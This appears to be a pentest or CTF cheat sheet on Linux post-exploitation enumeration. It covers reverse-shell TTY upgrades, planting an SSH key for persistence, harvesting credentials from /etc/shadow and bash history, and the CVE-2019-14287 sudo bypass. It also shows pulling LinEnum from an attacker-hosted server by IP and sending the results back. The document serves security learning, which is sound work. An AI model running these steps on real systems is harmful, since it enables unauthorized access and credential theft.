







# Linux: Local Enumeration  

- [TTY](#tty)
  - [Python Shell Upgrade](#python-shell-upgrade)
  - [Upgrading Resources](#upgrading-resources)
- [SSH](#ssh)
- [Basic Enumeration](#basic-enumeration)
  - [Query the System](#query-the-system)
  - [Auto-Generated Bash Files](#auto-generated-bash-files)
  - [Sudo](#sudo)
- [/etc](#etc)
  - [/etc/passwd](#etcpasswd)
  - [/etc/shadow](#etcshadow)
  - [/etc/hosts](#etchosts)
  - [Identify exploitable processes](#identify-exploitable-processes)
- [Find Command and Interesting files](#find-command-and-interesting-files)
- [Networking](#networking)
  - [Port Forwarding](#port-forwarding)
  - [Identify Network Activity](#identify-network-activity)
  - [DNS Information](#dns-information)
- [Automating Scripts](#automating-scripts)
  - [LinPEAS](#linpeas)
  - [LinEnum.sh](#linenumsh)

## TTY

A netcat reverse shell can be easily broken by simple mistakes.
In order to fix this, we need to get a 'normal' shell, aka tty (text terminal). 
Note: Mainly, we want to upgrade to tty because commands like su and sudo require a proper terminal to run.

### Python Shell Upgrade 

python3 -c 'import pty; pty.spawn("/bin/bash")'

Generally speaking, you want to use an external tool to execute /bin/bash for you.  
Try everything you know, starting from python, finishing with getting a binary on the target system. 

### Upgrading Resources

[List of static binaries you can get on the system](https://github.com/andrew-d/static-binaries)

[Upgrading to TTY:](blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys)

## SSH

`id_rsa` contains a private key that can be used to connect to a box via ssh.  
usually located in the `.ssh` folder in the user's home folder. (Full path: `/home/user/.ssh/id_rsa`)  
Get that file on your system and give it read/write-only permissions for your user:
`:> chmod 600 id_rsa` and connect by executing `:> ssh -i id_rsa user@ip`.

In case if the target box does not have a generated id_rsa file (or you simply don't have reading permissions for it), you can still gain stable ssh access.  
Generate your own id_rsa key on your system and include an associated key into authorized_keys file on the target machine.  

Execute `:> ssh-keygen` and you should see `id_rsa` and `id_rsa.pub` files appear in your own .ssh folder.  
Copy the content of the id_rsa.pub file and put it inside the `authorized_keys` file on the target machine (located in .ssh folder).  
After that, connect to the machine using your id_rsa file.  

## Basic Enumeration

### Query the System

`:> cat /etc/os-release` : Display release information  
`:> hostname` : Query the hostname  
`:> uname -a`  : Query Kernel information  
`:> cat /etc/passwd`  :  Identify system users  
`:> cat /etc/passwd | column -t -s :`  :  Identify system users, display in a table with columns separated by a colon  
`:> cat /etc/shells` : Identify potentially useful shells on the system  
`:> cat /etc/crontab` : List cron jobs  
`:> cat /proc/version` : Specifics about the kern verion and the GCC compilers use to build the kernel  
`:> cat /etc/issue` : Contains the pre-login prompt and can be changed  
`:> env` : Display environment variables  
`:> id` : overview of user's privileges; providing another username as an argument can reveal priviileges of that user  
`:> history` : information about the target system and limited information on potentially captured usernames and passwords  
`:> df -h` : displays the amount of space available on the file system containing each file name argument, in human readable format  
`:> cat /var/log btmp` : show failed logins  
`:> cat /var/log/wtmp` show historiccal data of logins  
`:> cat /var/log/auth.log | tail` : show the last 10 entries in the authentication logs, including privlege escalations  
`:> cat /etc/timezone` : display the timezone  
`:> who` : which users are active on which terminals  
`:> ls /etc/init.d` : list of services  
`:> cat /var/log/syslog*` : view messages about system activity  

### Auto-Generated Bash Files

Bash keeps tracks of our actions by putting plaintext used commands into a history file `~/.bash_history`  

Use read permission on this file to enumerate system user's action and retrieve some sensitive information. (plaintext passwords, privilege escalation methods, etc..)  

`.bash_profile` and `.bashrc` contain shell commands run when `Bash` is invoked  

May contain start-up settings that can potentially reveal information. For example a bash alias can be pointed towards an important file or process.  

When a bash shell is spawned, it runs the commands stored in the .bashrc file.  
This file can be considered as a startup list of actions to be performed.  
Hence it can prove to be a good place to look for persistence.  

`:>cat ~/.bashrc`

### Sudo

#### Sudo Version

Sudo version can identify known exploits and vulnerabilities.  
`:> sudo -V` to retrieve the version.  
For example, sudo versions < 1.8.28 are vulnerable to CVE-2019-14287, which is a vulnerability that allows to gain root access with 1 simple command.  

#### Sudo Rights

`:> sudo -l` : list commands on which the current user may use sudo  
`:> sudo -u#<user id> <command>` : execute a command using the profile of the given `<user id>`, which might be in the sudoers file  
`:> sudo -u#-1 <command>` : sudo security bypass (CVE-2019-14287) with potentially available commands
`:> sudo visudo` : edit the sudoers file

#### Sudo Execution History

All commands run with `sudo` are stored in the auth log  

`cat /var/log/auth.log* | grep -i COMMAND | tail` : show commands run using sudo  

## /etc

central location for all your configuration files and it can be treated as a metaphorical nerve center of your Linux machine.  
Identify files which you are able to read and write.  

### /etc/passwd

It's a plain-text file that contains a list of the system's accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.
Each line of this file represents a different account, created in the system.  
Each field is separated with a colon (:) and carries a separate value.  
Easily enumerate all existing users, services and other accounts on the system.  
This can open a lot of vectors for you and lead to the desired root.  
With read/write access, easily get root creating a custom entry with root priveleges.  

### /etc/shadow

Stores actual password in an encrypted format (aka hashes) for user’s account with additional properties related to user password.  
Those encrypted passwords usually have a pretty similar structure, making it easy for us to identify the encoding format and crack the hash to get the password.  
Use /etc/shadow to retrieve different user passwords.  
In most of the situations, it is more than enough to have reading permissions on this file to escalate to root privileges.  
With read permissions, crack the encrypted password using one of the cracking methods.  
With write permissions, add a new root user by making a custom entry

### /etc/hosts

Simple text file allowing users to assign a hostname to a specific IP address.  
In real-world pentesting this file may reveal a local address of devices in the same network.  
It can help us to enumerate the network further.  

### Identify exploitable processes  

`:> ps` : view running processes for current shell  
`:> ps -A` : view all running processes  
`:> ps axjf` : view process tree  
`:> ps aux` : processes for all users (a); user launched processes (u); not attached to a terminal (x)  

## Find Command and Interesting files  

`:> find . -name "*string*` : find all files in the current directory whose name contains 'string'  
`:> find . -name flag1.txt` : find the files in the current directory with the name "flag1.txt”  
`:> find /home -name flag1.txt` : find the files in the /home directory with the name “flag1.txt”  
`:> find / -type d -name config` : recursively search from the root directory to find the directory named config  
`:> find / -type f -perm 777` : recursively search from the root directory and list files readable, writable, and executable by all users  
`:> find / -perm a=x` : recursively search from the root directory and list all executable files  
`:> find /home -user frank` : recursively search from the /home directory and list all files for user “frank”  
`:> find / -mtime 10` : recursively search from the root directory and list all files modified in the last 10 days  
`:> find / -atime 10` : recursively search from the root directory and list all files accessed in the last 10 days  
`:> find / -cmin -60` : recursively search from the root directory and list all files changed within the last hour (60 minutes)  
`:> find / -amin -60` : recursively search from the root directory and list all files accessed within the last hour  
`:> find / -size 50M` : recursively search from the root directory and list all files 50 MB in size  
`:> find / =writable -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -222 -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -o w -type d 2>/dev/null` : recursively search from the root directory and list all world-writeable directories  
`:> find / -perm -o x -type d 2>/dev/null` : recursively search from the root directory and list all world-executable directories  
`:> find / -name perl* OR python* OR gcc*` : recursively search from the root directory and list development tools / supported languages  
`:> find / -perm -u=s -type f 2>/dev/null` : recursively search from the root directory and list all files where special privileges are set for everyone.  
`:> find / -perm /1000` : recursively search from the root directory and list objects with the sticky bit set  
`:> find / -perm /2000` : recursively search from the root directory and list objects with the SGID bit set  
`:> find / -perm /4000` : recursively search from the root directory and list objects with the SUID bit set  
`:> investigator@10.82.165.240:~$ find / -type f -executable 2> /dev/null` : find executables  
`find / -type f -executable -not -path "/bin/*" -not -path "/sbin/*"` : find executables, exclude unlikely sources of good results  

A [list](https://lauraliparulo.altervista.org/most-common-linux-file-extensions/) of file extensions for which you usually look.  

## Networking

### Port Forwarding

Application of network address translation (NAT)  
redirects a request from one address and port number combination to different address and port number combination.  
Used while packets are traversing a network gateway, such as a router or firewall".  
allows you to bypass firewalls  
enumerate some local services and processes running on the box.  

Read more about [port forwarding](fumenoid.github.io/posts/port-forwarding)  

### Identify Network Activity  

`:> cat /etc/network/interface`  :Information on the network interfaces  
`:> ip addr show` : display network configuration information  
`:> ifconfig` : network interfaces on the system; useful for pivoting  
`:> ip route` : which network routes exist  
`:> netstat` : list existing communications  
`:> netstat -a` : show all listening ports and established connections  
`:> netstat -at` or `-au` : lists TCP or UDP protocols  
`:> netstat -l` : lists "listening" ports open to incoming communciations  
`:> netstat -lt` : lists listening TCP ports  
`:> netstat -s` : lists useage statics by protocol can be also used with "-t" or "-u"  
`:> netstat -tp` : connections with the service name and PID information; add "l" to get listening ports  
`:> netstat -i` : interface statistics  
`:> netstat -ano` : "a" display all sockets; 'n' do not resolve names; "o" display timers  

### DNS Information  

`:> man hosts` : information about the hosts file  
`:> cat /etc/hosts` : display information in the hosts file  
`:> cat /etc/resolv.conf` : display the DNS servers used for DNS resolution  

## Automating Scripts

### LinPEAS

Linux local Privilege Escalation Awesome Script (.sh) is a script that searches for possible paths to escalate privileges on Linux/ hosts. 
automatically searches for passwords, SUID files and Sudo right abuse to hint you on your way towards root. 

`wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh`  

`:> ./linpeas.sh`

### LinEnum.sh

Get LinEnum.sh onto the attacking device

`:> wget -O LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh`

Gain access to the target machine

Open a simple server on the attacking device in the directory from where LinEnum can be transported.

`:> python3 -m http.server 8888`

  

On the target device, set up a location from where the script will run.  

  

Pull the script from the python server to the target device.  

`:> wget 10.201.47.243:8888/LinEnum.sh`

The serving attacker logs the "GET" request and the target device recevies the script

  

If the target device is permitted a WAN connection, pull the script from GitHub.

`:> wget -O LinEnumFromGit.sh https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`  

Add execution privileges to the script 

`:> chmod +x LinEnum.py`

  

Run the script and output to a file that can be studied for escalation opportunities

`:> ./LinEnum.sh > enum.txt`

Shutdown the server on the attacking device

  

Reverse the server setup and transfer the enum.txt to the attacking device for analysis and resource development.

